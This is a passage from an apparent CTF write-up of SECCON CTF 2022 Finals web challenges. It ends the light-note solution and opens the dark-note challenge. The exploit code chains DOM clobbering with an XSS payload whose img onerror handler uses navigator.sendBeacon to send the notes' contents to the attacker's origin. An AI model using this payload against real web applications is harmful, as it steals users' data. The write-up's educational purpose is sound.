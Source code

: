 ```html title="index.html"
          <p class="delete"></p>
        </button>
        <img name="nodeType">
      `.trim();

      const note2 =
        "<" +
        `
          <img src=0 onerror="navigator.sendBeacon('${location.origin}', notes.textContent)">
        `.trim();

      createNote(note1); // DOM Clobbering
      await sleep(1000);
      createNote(note2); // XSS
      await sleep(1000);

      location = baseUrl;
    };
    main();
  </script>
</body>
```

### Flag[^light-note-flag]

```
SECCON{induction_i5_one_0f_my_favarite_g4mes}
```

[^light-note-flag]: https://store.steampowered.com/app/381890/Induction

## [web 500] dark-note

- International: 0 solved / 10
- Domestic: 0 solved / 12
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202302_SECCON_CTF_2022_Finals/web/dark-note

Description:

> I created an incredibly blazing-fast note application!
>
> Instancer:
> ```
> nc dark-note.{int,dom}.seccon.games 1337
> ```
>
> Note: The instancer has no bugs or vulnerabilities (at least in my intended solution).

### Overview

This is also a note application. You can create and delete notes:


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell